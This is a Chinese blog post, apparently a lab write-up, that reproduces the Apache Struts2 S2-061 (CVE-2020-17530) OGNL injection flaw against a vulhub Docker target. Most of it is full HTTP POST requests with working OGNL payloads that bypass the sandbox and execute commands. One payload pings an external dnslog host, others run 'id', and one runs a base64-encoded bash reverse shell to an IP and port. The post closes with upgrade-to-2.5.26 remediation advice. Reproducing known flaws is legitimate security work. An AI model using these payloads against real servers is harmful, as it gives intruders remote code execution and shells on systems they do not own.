



# Struts2 S2-061(CVE-2020-17530)漏洞复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/14122528.html`](https://www.cnblogs.com/backlion/p/14122528.html)

### 0x00 漏洞简介

Apache Struts2 框架是一个用于开发 Java EE 网络应用程序的 Web 框架。Apache Struts 于 2020 年 12 月 08 日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些 tag 等情况下可能存在 OGNL 表达式注入漏洞，从而造成远程代码执行，风险极大。

### 0x01 漏洞描述

Struts2 会对某些标签属性(比如 `id`，其他属性有待寻找) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 `x` 的值用户可控时，用户再传入一个 `%{payload}` 即可造成 OGNL 表达式执行。S2-061 是对 S2-059 沙盒进行的绕过。

### 0x02 漏洞影响

struts 2.0.0 - struts 2.5.25

### 0x03 漏洞复现

**一.环境搭建**1.docker 环境地址：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061docker-compose up -d  #启动 docker 环境

```
2.访问目标地址
```

```
http://192.168.1.14:8080/index.action
```

```
**二、漏洞利用**
```

```
1.DNSlog 验证漏洞
```

POST /index.action HTTP/1.1Host: 192.168.1.14:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Length: 853------WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Disposition: form-data; name="id"%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping    paqmgs.dnslog.cn")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}------WebKitFormBoundaryl7d1B1aGsV2wcZwF--DNGlog 记录可发现命令成功执行2.通过构造 post 包执行 exp 命令执行 idPOST /index.action HTTP/1.1Host: 192.168.1.14:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Length: 827------WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Disposition: form-data; name="id"%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}------WebKitFormBoundaryl7d1B1aGsV2wcZwF--burp 提交后，在响应页面发现命令回显可，说明 ID 命令执行成功或者 POST /index.action HTTP/1.1Host: 192.168.1.14:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Length: 1361------WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Disposition: form-data; name="id"%{(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + (#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))}------WebKitFormBoundaryl7d1B1aGsV2wcZwF--3.反弹 shell 命令通过以下在线地址将 bash 反弹命令进行进行编码转换 http://www.jackson-t.ca/runtime-exec-payloads.html提交以下 poc:POST /index.action HTTP/1.1Host: 192.168.1.14:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36Connection: closeContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Length: 922------WebKitFormBoundaryl7d1B1aGsV2wcZwFContent-Disposition: form-data; name="id"%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTQvMjIyMiAgIDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}------WebKitFormBoundaryl7d1B1aGsV2wcZwF--可以看到成功反弹 shell:

### 0x04 漏洞修复

避免对不受信任的用户输入使用强制 OGNL 评估，或/和升级到 2.5.26 版，可修复该漏洞。腾讯安全专家建议受影响的用户将 Apache Struts 框架升级至最新版本临时修复，升级到 Struts 2.5.26 版本，下载地址为：[`cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26`](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.26)

### 0x05  漏洞总结

此次漏洞只是 S2-059 修复的一个绕过，并且本次利用的核心类 org.apache.commons.collections.BeanMap 在 commons-collections-x.x.jar 包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持 OGNL 表达式的注入点，但是如果没有使用这个依赖包，也还是没办法进行利用。